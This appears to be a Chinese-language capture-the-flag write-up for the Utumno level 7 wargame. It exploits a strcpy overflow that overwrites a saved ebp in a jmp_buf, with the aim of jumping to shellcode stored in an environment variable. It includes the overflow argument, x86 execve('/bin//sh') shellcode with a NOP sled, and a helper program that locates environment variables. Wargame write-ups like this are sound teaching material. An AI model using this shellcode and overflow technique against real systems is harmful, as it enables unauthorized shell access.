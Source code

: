 ```
.text:080484FA                 mov     eax, 0
.text:080484FF                 leave
.text:08048500                 retn
```

我们知道 leave 指令等价于:`mov esp,ebp + pop ebp`组合指令，retn 指令会先`pop eip`。虽然esp，eip编码了，但是ebp没有编码！！(ebp在jmp_buf+12的位置)。


于是我们就可以在strcpy时把结构题所保存的ebp覆盖为某个地址，此地址+4指向的地址指向环境变量shllcode的地址。这样返回的时候eip直接指向我们的shellcode。


差不多构造成下面这样,假设ebp需要为`CCCC`:

```bash
./utumno7 $(python -c "print 'A'*128+'BBBB'*3+'CCCC'")

```

我直接上号。

```bash
utumno7@utumno:/tmp/jkfl$ export SHELLCODE=$(python -c 'print 200 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0f\x2c\x04\xcd\x80"')

```

写一个程序看一下shellcode的序号.

```cpp
#include <stdio.h>

int main(int argc, char *argv[], char **envp){
    int i=0;    
    while(*envp){
        printf("add[%d]: %s\n",i,*envp);
        i++; 
        envp++;
    }
}
```

```bash
utumno7@utumno:/tmp/jkfl$ gcc -m32 number.c -o number
utumno7@utumno:/tmp/jkfl$ ./number

...

add[8]: LC_NAME=en_US.UTF-8
add[9]: SHELLCODE=��������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������1�Ph//shh/bin��1�1Ұ,̀
add[10]: USER=utumno7
add[11]: PWD=/tmp/jkfl
add[12]: HOME=/home/utumno7
add[13]: SSH_CLIENT=183.227.200.198 10908 22
add[14]: LC_ADDRESS=en_US.UTF-8
add[15]: LC_NUMERIC=en_US.UTF-8
add[16]: SSH_TTY=/dev/pts/0
add[17]: MAIL=/var/mail/utumno7
add[18]: TERM=xterm-256color
add[19]: SHELL=/bin/bash
add[20]: TMOUT=1800
add[21]: SHLVL=1
add[22]: LC_TELEPHONE=en_US.UTF-8
add[23]: LOGNAME=utumno7
add[24]: PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
add[25]: LC_IDENTIFICATION=en_US.UTF-8
add[26]: LC_TIME=en_US.UTF-8
```